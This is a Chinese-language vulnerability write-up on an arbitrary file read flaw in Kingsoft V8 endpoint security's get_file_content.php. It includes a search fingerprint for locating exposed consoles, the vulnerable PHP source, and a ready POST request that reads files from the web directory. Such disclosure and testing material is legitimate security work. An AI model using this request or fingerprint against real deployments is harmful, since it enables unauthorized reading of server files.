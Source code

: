 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="在线安装-V8+终端安全系统Web控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630284811305-903a9d36-0fe4-46b2-bc56-92f81c4c433c.png)

存在漏洞的文件`/Console/receive_file/get_file_content.php`

```php {2-5}
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```

文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

<a-checkbox checked>由于不能出现 .. ，所以只能读取web目录下的文件</a-checkbox></br>

```plain
POST /receive_file/get_file_content.php

filepath=login.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630292700432-afde937f-bbe7-4493-a1e5-0cbb50dae5e7.png)



## 